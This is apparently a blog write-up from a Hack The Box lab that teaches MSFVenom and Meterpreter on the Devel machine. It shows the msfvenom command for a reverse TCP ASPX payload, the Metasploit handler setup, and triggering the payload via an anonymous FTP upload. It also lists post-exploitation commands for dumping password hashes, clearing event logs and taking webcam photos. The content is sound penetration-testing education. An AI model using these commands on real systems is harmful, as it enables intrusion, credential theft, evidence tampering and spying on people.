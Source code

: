 ```yaml
---
title:      "MSFVenom and Meterpreter: The basics"
date:       2018-09-11 12:20:20 +0100
tags:       HackTheBox
category:   Cybersecurity
comment:    header sizes are 2000x750
header:
  image:	/assets/images/2018-09-11-msfvenom/header.jpg
  teaser:	/assets/images/2018-09-11-msfvenom/header.jpg
  caption:	"Photo credit: [**Unsplash**](https://unsplash.com)"
---
```


I just recently successfully gained root (or rather, Administrator, because it's a Windows box) on the **Devel** machine in [Hack The Box](https://hackthebox.eu).

The machine itself is very easy, and there are lots of writeups on it, I'm sure, so this won't be another one. However, one thing it made really clear and simple was learning **MSFVenom** and getting to use reverse shells in a realistic scenario. Therefore, I'll use the machine as an example to illustrate the usage of MSFVenom.

In this case, the machine is running IIS, with an FTP server that allows anonymous uploads, and an HTTP server running on the traditional port 80.

This is where MSFVenom comes in handy: We can upload arbitrary files and trigger their execution.

Some information:
- The victim's IP is `10.10.10.5`
- Our IP is `x.y.z.w`
- We have no firewalls blocking inbound connections (this is a requirement if you want to have reverse shells connect back to you)

## The reverse shell
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.y.z.w LPORT=1337 -f aspx > devel.aspx
```

This:
- Sets the payload to be a reverse TCP meterpreter shell (for Metasploit), for Windows machines. You can query the full list of payloads by running `$ msfvenom -l payloads`
- Sets our IP to be `x.y.z.w` (the victim machine must be able to reach us on that IP)
- Sets our listening port to be `1337` (remember this, you'll need it to configure the listening end of the reverse shell: Metasploit)
- Sets the format to be ASPX, C#
- Creates a file called `devel.aspx` in the current directory

## Configure Metasploit

Now we have to configure Metasploit to listen to remote connections, using the same parametres given to MSFVenom.

(The following commands are to be executed sequentially in a Metasploit Console)

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost x.y.z.w
set lport 1337
set ExitOnSession false
exploit -j
```

Metasploit is now ready to accept connections to port `1337` and the specified IP address (in this case `x.y.z.w`)

## Triggering the reverse shell

In this case, now that we have the `devel.aspx` file, we have to upload it via FTP. Because the FTP is pointing to the same directory as the HTTP server, we can just drop it there, and then navigate to `http://10.10.10.5/devel.aspx`. A blank page will appear, but if we did everything correctly, a new line will appear in the listening console. It will say something similar to: `Meterpreter session 1 opened (x.y.z.w:1337 -> 10.10.10.5:49160)`.

At this point, we can list sessions by issuing `sessions -l` at the Metasploit console, and attach to the newly opened session by running `sessions <SESSION ID>`, in this case, the session ID is 1, so `sessions 1` attaches correctly to the shell.

## Meterpreter

Now we're in a Meterpreter Windows session, we can issue the following commands (note that to specify the folder separator in Meterpreter, you must use double slashes `//` and not the standard Windows backslash `\`):
- `ls` or `dir`: lists the files and directories
- `cd`: changes directory, behaves just like Linux systems
- `pwd`: shows the full path for the current directory, similar to Linux as well
- `background`: sends the Meterpreter session to the background, and resumes your Metasploit session, you can always return by reattaching the session with `sessions <SESSION ID>`
- `cat`: prints text files to the screen, like the Linux command of the same name
- `download` or `upload`: respectively download or upload files from/to the machine
- `getuid`: returns the user the reverse shell is running with, useful to let us know if we gained Administrator access
- `clearev`: clears the *Application*, *System* and *Security* logs for the machine
- `execute`: runs an arbitrary command given as the argument
- `hashdump`: dumps the contents of the *SAM* database
- `idletime`: displays how much time has passed since the user was active
- `ipconfig`: retrieves the network interface configuration
- `ps`: like the Linux tool of the same name, displays a list of running processes in the victim machine
- `shell`: invokes a standard shell
- `webcam_list`: displays currently connected and configured web cams on the victim machine
- `webcam_snap`: takes a picture from a connected camera, and saves it to the current working directory with a random filename

